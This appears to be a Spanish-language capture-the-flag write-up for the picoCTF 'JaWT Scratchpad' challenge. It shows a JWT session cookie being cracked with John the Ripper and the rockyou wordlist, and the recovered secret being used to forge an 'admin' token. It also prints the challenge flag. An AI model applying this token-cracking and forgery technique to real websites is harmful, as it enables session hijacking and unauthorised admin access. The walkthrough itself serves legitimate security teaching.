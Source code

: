 ## Objetivo
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/61864/` or http://jupiter.challenges.picoctf.org:61864
## Solución
- Se obtiene la cookie de la página web JaWT, y se crea un archivo a partir de este
```
┌──(kali㉿Franco)-[~]
└─$ nano cookie
                                                                                                                  
┌──(kali㉿Franco)-[~]
└─$ cat cookie
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoibWlndWVsIn0.N4hIwNhPMz6JxK4p59Hm3USJKz9px5JsqEBnEZTuJvE
                                                                                                                  
┌──(kali㉿Franco)-[~]
└─$ ls /usr/share/wordlists                      
amass  dirbuster   fasttrack.txt  john.lst  metasploit  rockyou.txt  wfuzz
dirb   dnsmap.txt  fern-wifi      legion    nmap.lst    sqlmap.txt   wifite.txt
                                                                                                                  
┌──(kali㉿kaliFranco
└─$ sudo apt install john                        
john is already the newest version (1.9.0-Jumbo-1+git20211102-0kali7+b1).
The following packages were automatically installed and are no longer required:
  libavfilter9      libndctl6      libre2-10        openjdk-17-jre           python3-pytzdata
  libdaxctl1        libplacebo338  libroc0.3        openjdk-17-jre-headless  rwho
  libgeos3.12.1t64  libpmem1       libsvtav1enc1d1  python3-diskcache        rwhod
  libjsoncpp25      libpostproc57  libu2f-udev      python3-mistune0         samba-ad-provision
  libjxl0.7         librav1e0      libx265-199      python3-pendulum         samba-dsdb-modules
Use 'sudo apt autoremove' to remove them.

Summary:
  Upgrading: 0, Installing: 0, Removing: 0, Not Upgrading: 0
                                                                                                                  
┌──(kali㉿Franco)-[~]
└─$ john cookie -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:03 DONE (2024-09-23 13:31) 0.2624g/s 1941Kp/s 1941Kc/s 1941KC/s iloverob4live345..ilovepatri
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

- ##### En la página JWT para hacer un Debugger de la cookie encriptada, se desencriptará para modificar lo siguiente:

HEADER
{
  "typ": "JWT",
  "alg": "HS256"
}

PAYLOAD
{
  "user": "miguel" //SE CAMBIARÁ ESTA PARTE POR "admin"
}

VERIFY SIGNATURE
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  *your-256-bit-secret* //EN ESTA PARTE SE INTRODUCIRÁ "ilovepico"
)

Duplicaremos la nueva cookie y modificaremos la del sitio JaWT. Luego de eso, encontraremos la bandera en la sección del scratchpad.

```
Flag: picoCTF{jawt_was_just_what_you_thought_1ca14548}
```

## Notas adicionales
- JSON Web Token (JWT) es un estándar abierto (RFC7519) que define un modo ​compacto y ​autocontenido ​para transmitir información segura entre distintas partes utilizando objetos JSON. Una de las características principales de JWT es que esta información puede ser verificada porque es firmada digitalmente.
## Referencias